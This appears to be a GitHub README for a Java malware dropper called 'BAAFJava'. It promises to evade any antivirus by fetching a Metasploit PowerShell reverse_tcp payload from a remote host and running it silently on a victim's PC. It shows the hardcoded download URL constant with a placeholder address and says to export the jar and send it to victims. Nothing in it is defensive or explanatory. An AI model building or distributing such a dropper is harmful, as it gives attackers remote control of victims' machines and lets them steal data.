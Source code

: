 # BAAFJava
Bypass Any Antivirus Firewall
Metaesploit powershell exec in java, bypass any antivirus. 

Bypass any anti-virus with powershell payload,
this shit get the txt uploaded powershell and insta-execute on the victim pc,

	-> u can create the powershell reverse_tcp payload script on the metasploit framework
	windows/meterpreter/powershell_reverse_tcp.txt 
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 ______________________________________________________________________________
	 
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
And export jar file and send it. Be fun.
	
